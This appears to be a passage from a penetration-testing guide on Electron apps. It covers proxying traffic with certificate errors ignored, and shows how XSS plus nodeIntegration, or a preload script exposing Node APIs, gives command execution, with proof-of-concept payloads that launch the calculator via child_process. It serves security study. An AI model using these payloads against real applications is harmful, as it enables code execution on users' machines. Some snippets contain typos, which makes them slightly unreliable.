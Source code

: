### Capture traffic

Modify the start-main configuration and add the use of a proxy such as:

```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```

## RCE: XSS + nodeIntegration

If the **nodeIntegration** is set to **on**, a web page's JavaScript can use Node.js features easily just by calling the `require()`. For example, the way to execute the calc application on Windows is:

```html
<script>
  require('child_process').exec('calc');
  // or
  top.require('child_process').exec('open /System/Applications/Calculator.app');
</script>
```

## RCE: preload

The script indicated in this setting is l**oaded before other scripts in the renderer**, so it has **unlimited access to Node APIs**:

```javascript
new BrowserWindow{
  webPreferences: {
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'perload.js'),
  }
});
```

Therefore, the script can export node-features to pages:

{% code title="preload.js" %}
```javascript
typeof require === 'function';
window.runCalc = function(){
    require('child_process').exec('calc')
};
```
{% endcode %}

{% code title="index.html" %}
```html
<body>
    <script>
        typeof require === 'undefined';
        runCalc();
    </script>
</body>
```
{% endcode %}
